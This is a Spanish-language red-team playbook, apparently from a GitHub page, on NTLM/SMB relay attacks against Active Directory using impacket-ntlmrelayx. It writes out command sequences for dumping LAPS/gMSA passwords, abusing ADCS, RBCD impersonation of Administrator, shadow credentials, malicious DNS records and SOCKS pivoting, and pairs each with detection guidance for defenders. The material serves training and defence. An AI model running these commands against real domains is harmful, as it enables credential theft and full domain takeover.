

# 🛡️ Red Team Playbook: Ataque SMB Relay, Post-Explotación Profunda y Defensa en Entornos Windows

**By: Hiper experto Red Team | Purple Team | Threat Hunter | Blue Team | Threat Intelligence**

---

## 1️⃣ Introducción

El ataque SMB Relay con Impacket-ntlmrelayx es una de las técnicas más potentes y versátiles para escalar privilegios, establecer persistencia y pivotar en entornos Active Directory. Combinando múltiples flags avanzados (`--dump-laps`, `--dump-gmsa`, `--adcs`, `--shadow-credentials`, `--add-dns-record`, `--socks`), puedes obtener control total sobre el dominio si no está debidamente protegido.  
Esta guía cubre **TODAS** las técnicas y flags relevantes, su abuso, profundidad técnica y defensa moderna.

---

## 2️⃣ Comando Completo y Flags

```bash
impacket-ntlmrelayx.py -tf targets.txt -smb2support \
  --dump-laps \
  --dump-gmsa \
  --dump-adcs \
  --adcs \
  --escalate-user HACKER$ \
  --delegate-access \
  --shadow-credentials \
  --shadow-target objetivo$ \
  --add-dns-record \
  --socks \
  --interactive "nc 127..."
```

- `-tf targets.txt`: Lista de objetivos (SMB, LDAP, etc.).
- `-smb2support`: Soporte SMBv2 (imprescindible en Windows >=10/2016).
- `--dump-laps`, `--dump-gmsa`: Extracción automática de credenciales LAPS/gMSA.
- `--dump-adcs`, `--adcs`: Abuso de plantillas ADCS vulnerables y extracción de info.
- `--escalate-user`, `--delegate-access`: Abuso RBCD (delegación controlada).
- `--shadow-credentials`, `--shadow-target`: Persistencia sigilosa en objetos AD.
- `--add-dns-record`: Pivoting y persistencia a través de DNS.
- `--socks`: Proxy SOCKS5 para pivoting avanzado.

---

## 3️⃣ Técnicas de post-explotación: explicación hiper profunda y ejemplos

### A. **LAPS/gMSA Extraction**
#### **¿Qué ocurre?**
ntlmrelayx extrae automáticamente contraseñas de cuentas LAPS (Administrador local) y gMSA (Managed Service Accounts) tras un relay exitoso con permisos adecuados.

#### **Abuso Red Team**
Utiliza las credenciales para movimiento lateral inmediato con herramientas como `wmiexec.py`, `psexec.py`, `smbexec.py`.

```bash
wmiexec.py dominio.local/Administrador:'<LAPS_PASSWORD>'@IP_OBJETIVO
```

#### **Defensa Blue Team / Threat Hunter**
- Monitoriza eventos 4662 sobre objetos AD con permisos de lectura de atributos LAPS/gMSA.
- Alertas de acceso anómalo a cuentas LAPS/gMSA.

---

### B. **ADCS Abuse (Active Directory Certificate Services)**
#### **¿Qué ocurre?**
ntlmrelayx solicita certificados en plantillas vulnerables usando la identidad relayada. Si hay plantillas inseguras, permite obtener certificados válidos para cualquier usuario.

#### **Abuso Red Team**
Un certificado válido permite obtener TGTs y autenticarse como cualquier usuario, incluyendo DA.

```bash
getTGT.py -hashes : -pfx-file <cert.pfx> dominio.local/usuario
smbexec.py -k -no-pass dominio.local/usuario@objetivo
```

#### **Defensa Blue Team / Threat Hunter**
- Hardening de plantillas ADCS y limitación de Enrollment.
- Monitorización de solicitudes/emisiones de certificados y actividad de Enrollment Agents.

---

### C. **RBCD (Resource-Based Constrained Delegation): Explicación profunda y paso a paso**
#### **¿Qué ocurre?**
RBCD permite a un objeto (máquina/usuario) suplantar a cualquier usuario para acceder a un servicio, si el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` está configurado en la máquina objetivo.

#### **Abuso Red Team**
1. **Crea/compromete una cuenta máquina (HACKER$):**
   ```bash
   addcomputer.py -computer-name HACKER$ -computer-pass Sup3rS3cr3t dominio.local/usuario:password
   ```
2. **Modifica el atributo de delegación en la máquina objetivo:**
   ```bash
   ntlmrelayx.py --escalate-user HACKER$ --delegate-access ...
   ```
3. **Como HACKER$:** Abusa de S4U2Self/S4U2Proxy para suplantar usuarios (ej. Administrator) y obtener TGS Kerberos.
4. **Usa el ticket Kerberos para ejecutar comandos con privilegios elevados.**

##### **TGT, S4U2Self y S4U2Proxy (Kerberos): Explicación PROFUNDA para abuso en RBCD**
- **TGT (Ticket Granting Ticket):** "Boleto" Kerberos obtenido tras autenticación ante el KDC.
- **S4U2Self:** Permite a una máquina/servicio obtener un TGS como cualquier usuario.
- **S4U2Proxy:** Usa ese TGS para acceder a otros servicios como el usuario suplantado, si el SPN destino está en la ACL de delegación.

```bash
getST.py -dc-ip <DC_IP> -spn cifs/<objetivo> -impersonate Administrator dominio.local/HACKER$:Sup3rS3cr3t
export KRB5CCNAME=Administrator.ccache
smbexec.py -k -no-pass dominio.local/Administrator@<objetivo>
```

##### **Defensa Blue Team / Threat Hunter**
- Monitoriza eventos 5136 (cambios en msDS-AllowedToActOnBehalfOfOtherIdentity).
- Audita solicitudes S4U2Self/S4U2Proxy y tickets Kerberos sospechosos.

---

### D. **Shadow Credentials (Persistencia oculta y sigilosa): Explicación profunda**

#### **¿Qué ocurre?**
ntlmrelayx inyecta una clave pública controlada por el atacante en el atributo `msDS-KeyCredentialLink` del objeto AD víctima (usuario, máquina, admin, etc). Esto permite autenticación PKINIT Kerberos como esa identidad, sin password ni hash.

#### **Abuso Red Team**
1. Genera par de claves con [Whisker](https://github.com/eladshamir/Whisker) o [Certipy](https://github.com/ly4k/Certipy).
2. ntlmrelayx inyecta la clave pública en el objetivo.
3. Usas la clave privada para solicitar TGT Kerberos vía PKINIT como el usuario víctima.
4. Persistencia y movimiento lateral sin password dumping, ni Golden Ticket.

```bash
certipy account shadow /domain:dominio.local /target:victima /sid:<SID> /dc-ip:<IP_DC>
certipy auth -pfx <shadowed_account.pfx> -dc-ip <IP_DC>
```

#### **Defensa Blue Team / Threat Hunter**
- Audita cambios en `msDS-KeyCredentialLink` (evento 5136 en DCs).
- Busca autenticaciones PKINIT inusuales, especialmente en cuentas privilegiadas.
- Detección específica de claves de autenticación no legítimas.

#### **Threat Intelligence**
- Técnica avanzada de persistencia y movimiento lateral, común en APTs/ransomware modernos, difícil de detectar.

---

### E. **--add-dns-record (Pivoting y persistencia vía DNS): Explicación profunda**

#### **¿Qué ocurre?**
Este flag permite a ntlmrelayx añadir registros DNS arbitrarios en el DNS interno del AD, utilizando privilegios relayados sobre un servidor DNS (usualmente Domain Controller).

#### **Abuso Red Team**
- Puedes crear registros A/CNAME maliciosos para:
  - Redirigir tráfico de usuarios o sistemas internos a IPs controladas.
  - Crear rutas de pivoting y C2.
  - Facilitar phishing interno o envenenamiento de resolución de nombres.

**Ejemplo de uso:**
```bash
ntlmrelayx.py --add-dns-record --dns-hostname malicioso --dns-address 10.10.10.10 ...
```
- Ahora puedes usar ese nombre en ataques adicionales, o acceder a servicios internos vía pivoteo DNS.

#### **Defensa Blue Team / Threat Hunter**
- Monitoriza cambios en registros DNS internos.
- Revisa logs de administración DNS en DCs.
- Detecta nombres sospechosos o cambios inesperados en el espacio DNS corporativo.

#### **Threat Intelligence**
- El abuso de DNS interno es un vector de persistencia, pivoting y C2 muy utilizado en ataques modernos, difícil de detectar si no se audita el DNS AD.

---

### F. **SOCKS (Pivoting avanzado): Explicación profunda**

#### **¿Qué ocurre?**
El flag `--socks` inicia un proxy SOCKS5 local. Permite al atacante utilizar el host relayado como puente para pivotar tráfico a cualquier sistema interno, accediendo a servicios inaccesibles desde el exterior.

#### **Abuso Red Team**
- Configura tus herramientas (proxychains, nmap, crackmapexec, bloodhound, etc.) para usar el proxy SOCKS5 de ntlmrelayx.
- Realiza escaneos, explota servicios, ejecuta RCEs, accede a recursos internos, todo a través del pivote.
- Es ideal contra segmentación interna y firewalls.

```bash
proxychains nmap -sT -Pn -p 445,389,5985 10.10.10.0/24
proxychains crackmapexec smb 10.10.10.50 -u usuario -p password
```

#### **Defensa Blue Team / Threat Hunter**
- Monitoriza tráfico inusual/sospechoso desde hosts internos recién comprometidos.
- Detecta uso de puertos SOCKS típicos (1080, 1081) y correlaciona con actividad de autenticación.
- Analiza logs de firewall, IDS/IPS y EDR para identificar pivoting.

#### **Threat Intelligence**
- El pivoting SOCKS es común en ransomware, APT y pentesting avanzado; permite explorar y explotar la red interna tras el acceso inicial.

---

## 4️⃣ Visualización del flujo de ataque



---

## 5️⃣ Blue Team / Threat Hunter – Detección y Defensa avanzada

- **Monitorea cambios en msDS-AllowedToActOnBehalfOfOtherIdentity y msDS-KeyCredentialLink (evento 5136).**
- **Audita solicitudes y emisiones de certificados en ADCS.**
- **Detecta autenticaciones PKINIT inusuales y uso de claves no legítimas.**
- **Busca conexiones SOCKS y pivoting interno.**
- **Analiza cambios en registros DNS y actividad inesperada.**
- **Caza creación de cuentas de máquina y tickets S4U2Self/S4U2Proxy.**
- **Revisa logs de acceso a atributos LAPS/gMSA y movimientos laterales con cuentas privilegiadas.**

---

## 6️⃣ Threat Intelligence

- Todas estas técnicas son TTPs de APTs, ransomware y pentesters avanzados.
- Su combinación permite persistencia, escalada y movimiento lateral sigiloso y difícil de detectar.
- La defensa moderna exige hardening de NTLM, SMB signing, restricciones en ADCS, auditoría de delegación y gestión estricta de credenciales, así como visibilidad total sobre DNS y tráfico interno.

---

## 7️⃣ Referencias y herramientas

- [Impacket](https://github.com/fortra/impacket)
- [Certipy](https://github.com/ly4k/Certipy)
- [Whisker](https://github.com/eladshamir/Whisker)
- [Microsoft ADCS Abuse Whitepaper](https://specterops.io/wp-content/uploads/sites/3/2021/11/Certified_Pre-Owned.pdf)

---

**¿Necesitas playbooks, queries de detección SIEM, scripts de hardening, labs o diagramas interactivos? ¡Pídelo y te lo armo hiper optimizado!**
